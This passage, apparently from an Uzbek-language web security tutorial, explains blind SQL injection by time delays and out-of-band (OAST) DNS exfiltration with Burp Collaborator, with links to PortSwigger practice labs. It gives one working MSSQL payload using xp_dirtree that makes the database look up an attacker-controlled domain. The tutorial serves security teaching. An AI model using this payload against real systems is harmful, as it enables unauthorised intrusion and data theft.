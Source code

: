 :::info **Eslatma**
SQL so'rovlarida vaqtni kechiktirishning turli usullari bor va turli xil texnikalari hae xil ma'lumotlar bazasida qo'llaniladi.
:::

:::caution **Lab**
 [Time delaylar orqali SQL ineksiya **≫**](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)
:::

:::caution **Lab**
 [Vaqtni kechiktirish va malumotlarni olish uchun Blind SQL ineksiya hujumi **≫**](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)
:::

## OAST texnikasidan foydalangan holda Blind SQL ineksiyadan foydalanish <a href="#oast-texnikasidan-foydalangan-holda-blind-sql-inektsiyasidan-foydalanish" id="oast-texnikasidan-foydalangan-holda-blind-sql-inektsiyasidan-foydalanish"></a>

Aytaylik, dastur bir xil SQL so'rovini bajaradi, lekin uni asinxron tarzda amalga oshiradi. Ilova foydalanuvchining so'rovini haqiqiy **thread**da qayta ishlashni davom ettiradi va **cookie**-fayllar yordamida SQL so'rovini bajarish uchun boshqa **thread**dan foydalanadi. So'rov hali ham SQL ineksiyaga zaif, ammo hozirgacha aytilgan usullardan hech biri ishlamaydi: Websaytning javobi so'rovning biron bir ma'lumotni qaytarishiga yoki ma'lumotlar bazasida xatolik yuzaga kelishiga yoki so'rovni bajarish uchun ketgan vaqtga bog'liq emas.

Bunday holatda, ko'pincha siz boshqaradigan tizimga OASTdan foydalanib **Blind SQL** ineksiya zaifligidan foydalanish mumkin. Avvalgidek, ular birma-bir ma'lumot olish uchun kiritilgan shart asosida shartli ravishda ishga tushirilishi mumkin. Bundan ham kuchlirog'i, ma'lumotlar to'g'ridan-to'g'ri tarmoq aro ta'sirining o'zida chiqarilishi mumkin.

Bu maqsadda turli xil tarmoq protokollaridan yuborish mumkin, lekin eng samarali **DNS** _(domen nomi xizmati)_ olib boradi. Buning sababi shundaki, juda ko'p ishlab chiqarish tarmoqlari **DNS** so'rovlarini bepul chiqarish imkonini beradi, chunki ular ishlab chiqarish tizimlarining normal ishlashi uchun zarurdir.

**OAST**dan foydalanishning eng oson va ishonchli usuli **Burp Collaborator**-dan foydalanishdir. Bu turli xil tarmoq xizmatlarining (jumladan, DNS) maxsus ilovalarini ta'minlovchi server bo'lib, zaif dasturga individual payladlarni etkazib berish va tarmoq o'zaro ta'siri qachon sodir bo'lishini ta'minlaydi.

DNS so'rovini ishga tushirish usullari ma'lumotlar bazasi turiga juda xosdir. Microsoft SQL Serverda ma'lum domenda DNS lookup uchun quyidagi kabi SQL so'rovdan foydalanish mumkin:

`'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`

\*\*Bu ma'lumotlar bazasi quyidagi domenni qidirishga olib keladi: \*\*

`0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

Siz Burpsuitening Collabratori orqali **uniq subdomen** yaratishingiz va har qanday DNS qidiruvi bo'lganda tasdiqlash uchun **Collaborator server**iga so'rov o'tkazing.

:::caution **Lab**
 [OAST o'zaro ta'siri orqali Blind SQL ineksiya hujumi **≫**](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)
:::
